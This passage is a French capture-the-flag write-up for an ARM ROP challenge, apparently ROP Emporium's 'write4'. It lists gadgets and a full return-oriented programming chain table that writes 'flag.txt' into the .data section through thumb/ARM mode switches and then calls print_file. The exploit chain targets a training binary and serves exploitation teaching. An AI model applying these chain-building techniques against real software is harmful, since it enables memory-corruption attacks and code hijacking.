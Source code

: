 Avec cela on peut écrire "flag.txt" dans .data.

Ensuite pour appeller print_file il nous faut charger r0 avec l'adresse de la chaîne.

    0x00010474     pop {r3, pc}
    0x000105c8     mov r0, r3 ; pop {fp, pc}

### La chaine de ROP

| Valeur | gadget | commentaire |
| ----------- | ------- | ----- |
|  | | Première moitié |
| 0x00010658 | pop {r4, r5, r6, r7, r8, sb, sl, pc} | Charges les 7 registres
| 0 | | pour r4 |
| .data-0x44 | |pour r5, adresse cible -0x44 |
| b"flag" || pour r6 : |
| 0 | |pour r7 |
| 0 | |pour r8 |
| 0 | |pour sb |
| 0 | |pour sl |
| 0x000105ec | pop {r0, r1, r3}; bx r1  | charge r0 et r1 et execute le gadget chargé dans r1 en mode thumb
| | | Seconde moitié |
| 0x00010658 | pop {r4, r5, r6, r7, r8, sb, sl, pc} | pour r0 en vue de `bx r0` juste après|
| 0x000103ea+1 | str r6, [r5, #0x44] ; bx r0 | pour r1 : ecrit r6 et saute à r0 en mode 32|
| 0|| r3 |
| 0 | | pour r4 du gadget pop {r4, r5, r6, r7, r8, sb, sl, pc}  |
| .data-0x44+4 | | pour r5 |
| b".txt" | | pour r6 |
| 0 | |pour r7 |
| 0 | |pour r8 |
| 0 | |pour sb |
| 0 | |pour sl |
| 0x000105ec | pop {r0, r1, r3}; bx r1  | charge r0 et r1 et execute le gadget chargé dans r1 en mode thumb
| 0x00010658 | pop {r4, r5, r6, r7, r8, sb, sl, pc} | pour r0 en vue de `bx r0` juste après|
| 0x000103ea+1 | str r6, [r5, #0x44] ; bx r0 | pour r1 : ecrit r6 et saute à r0 en mode 32|
| | | Appel de print_file |
| .data | | pour r3 |
|0x000105c8 | mov r0, r3 ; pop {fp, pc}| r0=.data
|0| | Pour pop fp |
| print_file || retour sur print_file
